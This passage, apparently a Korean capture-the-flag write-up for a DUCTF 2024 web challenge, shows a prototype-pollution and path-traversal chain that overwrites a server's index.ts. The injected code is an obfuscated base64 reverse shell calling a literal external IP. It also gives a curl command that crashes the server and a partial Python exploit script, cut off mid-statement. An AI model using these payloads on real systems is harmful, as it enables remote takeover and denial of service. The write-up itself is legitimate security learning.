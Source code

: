 JSON 데이터를 YAML 형식으로 변환 했을 때, Typescript가 Syntax를 이해할 수 있도록 하기 위해 RCE 코드를 제외하고 다른 부분들은 `/**/` 주석 처리해야한다.             
      
```typescript
const a:string = Bun.spawnSync({cmd:["bash","-c","echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMy4xMjQuMTc1LjExNC84MDAwIDA+JjEK${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash${IFS}-i"]})/*
signed.name: jeff
signed.animalType: emu
signed.age: 12
signed.crime: assault
signed.description: clotheslined someone with their neck
signed.start: 2024-03-02T10:45:01Z
signed.release: 2054-03-02T10:45:01Z
signed.__proto__:
  outputPrefix: "../../proc/self/fd/3\0"
asdf: asdf */
```    
     
결과적으로, `/app/src/index.ts` 파일에 위 내용이 덮어쓰이게 되어 리버스 쉘 페이로드를 실행시킬 수 있다. 하지만, 웹 서버는 이미 이전 코드를 빌드해서 배포하고 있기 때문에 웹 서버를 재기동 시켜줘야 한다. 공식 풀이에서는 "Crash hono/bodyLimit By Phat File" 또는 "Crash bun By Failing open syscall" 방법을 사용하여 웹 서버를 재가동 시킬 수 있다고 한다.    
        
1. Crash hono/bodyLimit By Phat File     
    `/dev/urandom` 파일과 같은 malformed JSON 데이터를 전송하여 `hono/bodyLimit`에 crash가 발생해 예외를 발생시키는 방법  
          
    https://github.com/honojs/hono/blob/d87d9964433a4777b09abff9360ff12643d00440/src/validator/validator.ts#L78     
    
    ```bash
    curl -F 'file=@/dev/urandom' -H 'Content-Type: application/json' -X POST http://localhost:3000/convert-to-yaml
    ```
 
2. Crash bun By Failing open syscall    
`Bun.File()` 실행 시, `open syscall`을 호출하게 되는데 Escape Character가 포함된 잘못된 파일 경로를 전달하여 crash를 발생시키는 방법 (예를 들어, `../../proc/self/fd/3\x`)    
    
### Exploit Code         
    
```python
import requests, base64
 
url = "https://web-prisoner-processor-827ee556e12a3f35.2024.ductf.dev"
rhost = "server ip"
rport = "server port"

r = requests.get( 
    f"{url}/examples"
)

base = r.json()["examples"][0] 

# Path Traversal & index.ts overwrite
base["data"]["signed.__proto__"] = {
    "outputPrefix" : "../../proc/self/fd/3\x00"
}

cmd = f"bash -i >& /dev/tcp/{rhost}/{rport} 0>&1"

payload = {
    "data": {
        "const a": "string = Bun.spawnSync({cmd:[\"bash\",\"-c\",\"echo${IFS}" + \
        base64.b64encode(cmd.encode()).decode() + \
        "${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash${IFS}-i\"]})/*",
        **base["data"],
        "asdf": "asdf*/"                       
    },
```